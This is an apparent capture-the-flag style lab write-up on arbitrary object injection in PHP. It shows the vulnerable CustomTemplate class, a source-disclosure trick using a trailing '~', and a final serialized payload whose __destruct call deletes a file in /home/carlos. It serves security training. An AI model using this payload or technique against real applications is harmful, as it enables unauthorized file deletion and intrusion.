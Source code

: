 # Arbitrary object injection in PHP
# Objective
This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The session cookie on this webiste holds serialized data.\
There is a file `CustomTemplate.php` in `/libs`.

|![](Images/image-12.png)|
|:--:| 
| *Session cookie* |
|![](Images/image-13.png)|
| *PHP file* |

## Exploitation

### Reading source code 
The `/libs/CustomTemplate.php` can be read by appending `~` to GET request.

|![](Images/image-14.png)|
|:--:| 
| *Source code of CustomTemplate.php* |

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

### Arbitrary object injection
In order to delete `morale.txt` from `/home/carlos` directory attacker can create request with extra `CustomTemplate` object that will overwrite target file thanks to magic method `__destruct`.

|![](Images/image-15.png)|
|:--:| 
| *Deletion of target file* |

Final payload:
```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```


